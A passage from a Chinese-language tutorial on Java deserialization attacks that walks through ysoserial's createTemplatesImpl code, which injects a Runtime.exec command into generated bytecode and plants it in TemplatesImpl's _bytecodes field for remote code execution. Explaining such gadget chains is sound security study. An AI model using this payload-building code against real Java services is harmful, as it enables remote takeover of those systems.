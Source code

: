 ![](http://drops.javaweb.org/uploads/images/27194c9392f6a3ecb47ed3d3e6ad13a2e61cd2a9.jpg)

现在看看老外工具中，生成字节码的代码为：

```
public static TemplatesImpl createTemplatesImpl(final String command) throws Exception {
    final TemplatesImpl templates = new TemplatesImpl();

    // use template gadget class
    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
    final CtClass clazz = pool.get(StubTransletPayload.class.getName());
    // run command in static initializer
    // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
    clazz.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\"", "\\\"") +"\");");
    // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
    clazz.setName("ysoserial.Pwner" + System.nanoTime());

    final byte[] classBytes = clazz.toBytecode();

    // inject class bytes into instance
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes,
        ClassFiles.classAsBytes(Foo.class)});

    // required to make TemplatesImpl happy
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    Reflections.setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
    return templates;
}  

```

根据以上样例分析，可以清楚看见:前面几行代码，即生成了我们需要的**插入了恶意java代码的字节码数据**。该字节码其实可以看做是一个类(.class)文件。`final byte[] classBytes = clazz.toBytecode();`将其转成了二进制数据进行存储。

`Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes,ClassFiles.classAsBytes(Foo.class)});`这里又来到了一个有趣知识，那就是java反射机制的强大。`ysoserial`工具封装了使用反射机制对对象的一些操作，可以直接借鉴。

具体可以看看其源码，这里在工具中经常使用的`Reflections.setFieldValue(final Object obj, final String fieldName, final Object value);`方法，便是使用反射机制，将`obj`对象的`fieldName`属性赋值为`value`。反射机制的强大之处在于：

*   可以动态对对象的**私有属性**进行改变赋值，即：`private`修饰的属性。
*   动态生成任意类对象。

于是，我们便将`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`类生成的对象`templates`中的`_bytecodes`属性，`_name`属性，`_tfactory`属性赋值成我们希望的值。

重点在于`_bytecodes`属性，里面存储了我们的恶意java代码。现在的问题便是：如何触发加载我们的恶意java字节码？

### (2) 触发TemplatesImpl类加载_bytecodes属性中的字节码

在TemplatesImpl类中存在执行链:

